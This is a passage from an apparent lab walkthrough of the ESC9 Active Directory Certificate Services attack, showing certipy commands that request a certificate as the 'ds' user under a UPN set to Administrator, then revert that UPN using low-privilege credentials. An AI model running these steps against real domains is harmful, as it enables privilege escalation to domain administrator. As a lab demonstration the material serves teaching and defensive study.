 Next we need to request a TGT as the ``ds`` user, which will give us a TGT with Administrator as ``UPN``:  

```
certipy req -u 'ds@mcafeelab.local' -hashes a690...7931 -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1' -template ESC9
```

<img src="/images/2022-09-16/ESC9_5.png">  

Now we need to revert the ``UPN`` settings on the ``ds`` account back to it's default value:  

```
certipy account update -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -user ds -upn ds@mcafeelab.local
```

<img src="/images/2022-09-16/ESC9_6.png">  

<img src="/images/2022-09-16/ESC9_7.png">  
